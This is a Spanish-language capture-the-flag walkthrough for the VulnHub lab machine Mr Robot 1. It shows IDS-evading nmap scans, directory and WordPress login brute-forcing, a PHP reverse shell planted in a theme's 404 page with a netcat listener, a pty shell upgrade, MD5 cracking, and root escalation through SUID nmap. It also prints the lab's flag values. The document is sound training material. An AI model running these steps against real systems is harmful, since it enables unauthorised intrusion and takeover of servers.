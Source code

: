 # Mr_robot-1 - CTF how to pwn

Esta máquina CTF o **(Capture The Flag)** (Captura la bandera) **mr_robot 1** esta basada en la escena de la serie de mismo nombre **Mr robot** :), En la que se exploran diversas técnicas de explotación, escalada de privilegios y obtención de acceso en un entorno de CTF. A continuación, se describen los pasos y herramientas utilizadas para comprometer la máquina y obtener acceso al **root** de este ctf.

# Requisitos

- [mr_robot 1 - VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/)
- Virtual Box
- Kali linux 2024.4 - instalado u OS de preferencia 
![image](https://github.com/user-attachments/assets/66db3048-492c-4c8b-8449-d3302f01a3a6)

## Técnicas de Exploración y Explotación

## Enumeracion y recopilacion de datos
-El primer paso es entender la red en la que se trabaja y descubrir dispositivos, en este caso utilizando **arp-scan** (herramienta ya incluida en kali)

![image](https://github.com/user-attachments/assets/d7171dfd-c4eb-41a6-acc0-b96dfcc0ec35)
- **arp-scan** trabaja en la capa 2 del modelo OSI, lo que lo convierte en una buena alternativa a herramientas como **netdiscover**, ya que puede detectar dispositivos en la red local incluso si están ocultos a través de ICMP o sin nombre de host.


## Tecnicas de Enumeración

## Nmap

```bash
nmap -iL hosts.txt --randomize-hosts -f --data-length --top-ports 100 --min-rate 600 -sV -T4 -Pn
```

- `nmap -iL hosts.txt`: Escanea los hosts listados en el archivo `hosts.txt`.
- `--randomize-hosts`: Aleatoriza el orden en el que se escanean los hosts.
- `-f`: Fragmenta los paquetes para evadir detección por sistemas de seguridad, firewalls, IDS , etc..
- `--data-length`: Modifica el tamaño del paquete de datos para evitar detección.
- `--top-ports 100`: Escanea los 100 puertos más comunes.
- `--min-rate 600`: Establece una tasa mínima de envío de 600 paquetes por segundo ( en este caso sabiendo que la maquina es posible que no tenga sistema de deteccion de intrusiones).
- `-sV`: Detecta las versiones de los servicios en los puertos abiertos.
- `-T4`: Establece la velocidad de escaneo a un nivel más alto.
- `-Pn`: Omite el escaneo de ping (sabiendo que todos los hosts están activos).

![image](https://github.com/user-attachments/assets/2d3cf124-93c9-4d6c-be05-e06454d8a30c)


- El escaneo muestra que hay un servicio corriendo en el puerto 80, en este caso la dirección http://192.168.0.19:80
  
![image](https://github.com/user-attachments/assets/e03519c5-0809-4602-9bee-f8024c86c3d8)

- Usando `Crtl + u` es posible acceder al codigo fuente con el fin de obtener mas información

-![image](https://github.com/user-attachments/assets/5230a9af-f777-4e8b-86fc-153ca447f441)

-Esto ya nos puede dar indicios de que probablemente el sitio este basado en **Wordpress**

## Busqueda de directorios

## Gobuster (kali)
```bash
gobuster dir -u http://192.168.0.19/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
-Gobuster es una herramienta de fuerza bruta utilizada para descubrir directorios y archivos ocultos en servidores web.

![image](https://github.com/user-attachments/assets/0eb150f3-0db0-4dec-90d1-c4138213c6ce)

-Es util en estos casos ademas de confirmar que el sitio efectivamente usa **Wordpress**

![image](https://github.com/user-attachments/assets/d0707503-0267-4528-b606-e791be060bb6)

-Aqui obtenemos la ruta a la primera llave y otro archivo pareciendo ser un diccionario

-**Key 1-of-3:** `073403c8a58a1f80d943455fb30724b9`

![image](https://github.com/user-attachments/assets/6fdb80ee-a5c7-46d4-97a6-a88622feb979)

- Limpiamos el diccionario de posibles palabras repetidas 

## Tecnicas de Explotación

## Wpscan (kali)

Se encontró un login en WordPress en la dirección `http://192.168.0.19/wp-login.php`. Se utiliza **WPScan** para realizar un ataque de fuerza bruta utilizando el diccionario obtenido `fsociety.txt` con el objetivo de encontrar credenciales válidas.


![image](https://github.com/user-attachments/assets/0b596a4f-56c3-4b67-9ec0-da616e5b337e)



![image](https://github.com/user-attachments/assets/844d2a6f-bb9d-4505-a6d8-99149a222628)


![image](https://github.com/user-attachments/assets/5a72bbec-7ab0-466f-ad69-66eedcc9e0b8)


#Explotación

## Reverse Shell

Una vez obtenidas las **credenciales válidas** para WordPress, ingresamos al **dashboard**. Luego, modifiqué el archivo **404.php** de error, alterando su código en PHP para **obtener una reverse shell**. La **reverse shell** se encuentra en la ruta `/usr/share/webshells/php/php-reverse-shell.php`. 


![image](https://github.com/user-attachments/assets/bacd3660-3390-4360-8fc7-ec249b66123c)




A continuación, provoqué un error 404 en el servidor, lo que causó que el servidor ejecutara el código PHP modificado. Del lado del atacante, **escuchamos la conexión** con **ncat** usando el siguiente comando:

```bash
nc -l -p 4545
```


![image](https://github.com/user-attachments/assets/ba9a79a2-3988-49bc-b027-0198b38737b2)


Una vez adentro busqué "upgradear" la shell en este caso sh, habiendo hecho busquedas en el sistema pude se identifico que habia python instalado por lo cual se ejecuta:



```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez dados estos pasos y dentro de la maquina, el objetivo es conseguir el acceso **root** y las demas **flags** restantes

![image](https://github.com/user-attachments/assets/21435db5-43d6-43cd-a3a2-a81a96ac4797)

- En el directorio de **robot** se encuentra la contraseña de el usuario pero encriptada en md5 por lo cual usé [CrackStation](https://crackstation.net/)


![image](https://github.com/user-attachments/assets/8bf0b219-bcca-4b11-bc98-ab2e21dcc330)

- Por lo cual la password del usuario robot es **abcdefghijklmnopqrstuvwxyz**


![image](https://github.com/user-attachments/assets/e344caf1-521b-4b9c-bfa9-def445af1e91)


- Una vez obtenida la segunda key **822c73956184f694993bede3eb39f959** paso a intentar escalar privilegios

## Escala de privilegios

- Buscando formas de escalar privilegios encontré archivos con permisos SUID **( lo cual indica que estos archivos son ejecutados con permisos root )**

- ![image](https://github.com/user-attachments/assets/5eebaad7-387e-4b92-978b-959820541f25)

## GFTOBins 

-[GFTOBins](https://gtfobins.github.io/)

-**GFTOBins** contiene informacion acerca de como aprovecharse de algunos programas con permisos mal configurados, en este caso **nmap**


![image](https://github.com/user-attachments/assets/d8f56c2f-18d2-4397-a042-70f15785399b)


-Ejecutando la siguientes lineas de codigo es posible escalar privilegios a esta maquina 


```bash
nmap --interactive
```


```bash
!sh
```


```bash
whoami && id 
```


![image](https://github.com/user-attachments/assets/f49ac76d-8e9f-4098-bfaa-91a9a48fd84e)


- De esta manera consiguiendo la tercera y ultima key de este CTF (Capture The Flag) **04787ddef27c3dee1ee161b21670b4e4**


## Extra


- Durante la etapa de enumeración, se identificó un servidor web. Se intentó modificar los archivos del sitio web, logrando completar el **CTF** y declarar el **"Hackeo completo"** de la máquina.


![image](https://github.com/user-attachments/assets/767b1b9f-681e-4d29-a5d0-64d78f04586a)









